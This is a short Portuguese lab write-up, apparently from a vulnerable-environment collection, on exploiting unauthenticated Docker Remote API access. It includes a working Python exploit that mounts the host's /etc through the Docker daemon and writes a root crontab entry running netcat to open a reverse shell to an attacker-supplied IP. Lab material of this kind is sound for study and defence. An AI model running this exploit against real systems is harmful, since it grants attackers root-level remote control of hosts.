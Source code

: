 # Docker daemon api unauthorized access exploit

Links de referência：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## Ambiente de vulnerabilidade

Digite o seguinte comando para compilar e executar o ambiente de vulnerabilidade:

```
docker-compose build
docker-compose up -d
```

## Explorar

Inicie um container e monte a pasta do host `/etc` no container, então teremos acesso de leitura/gravação a qualquer arquivo.

Podemos colocar os comandos no arquivo de configuração do crontab para reverter o shell

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

Exploração com reverse shell injetando comandos no crontab:

![](1.png)
